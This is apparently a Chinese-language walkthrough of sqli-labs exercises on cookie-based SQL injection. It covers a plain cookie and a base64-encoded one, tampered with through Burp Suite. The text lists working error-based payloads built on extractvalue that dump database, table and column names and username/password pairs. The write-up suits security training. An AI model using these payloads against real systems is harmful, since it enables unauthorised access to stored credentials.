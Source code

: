 采用damin登录后，发现cookie会获取username的值再传入。刷新页面，会重新获取cookie于是可以趁机修改。

![image-20201113151726212](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114712.png)

##### 输出点：

在BP包中将cookie：username=admin改为username=AAA。发现页面也的`YOUR COOKIE : uname =`也会修改。于是就可以在这里进行报错注入。单引号闭合，爆三个显示为，所以是单引号闭合![image-20201113153451096](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114713.png)

![image-20201113151829502](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114714.png)

##### 注入方式

通过它会cookie的值这个特性来修改cookie来使用报错语句进行sql注入

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:?admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #`
- 爆数据表`payload:admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'))#`
- 爆字段`payload:1' and extractvalue(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'))#` 右：`1' or extractvalue(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32))#`
- 爆数据`payload:1' and extractvalue(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e))%23` `payload:?1' and extractvalue(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32))#`

## less-21

##### 注入类型

cookie部分注入(base64)加密

##### 输入点

采用damin登录后，发现cookie会获取username的值再传入。刷新页面，会重新获取cookie于是可以趁机修改，但是这个cookie是经过加密过后的。

![image-20201113154324761](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114715.png)

##### 输出点：

在BP包中将cookie：username=admin改为username=AAA。发现页面也的`YOUR COOKIE : uname =`也会修改。于是就可以在这里进行报错注入。传入`AAA'`，爆错如下，所以是对username做了('')处理。所以使用`')`来闭合它![image-20201113154501262](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114716.png)

![image-20201113154658288](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114717.png)

##### 注入方式

通过它会cookie的值这个特性来修改cookie来使用报错语句进行sql注入（需要对报错语句进行base64加密）

##### 注入步骤
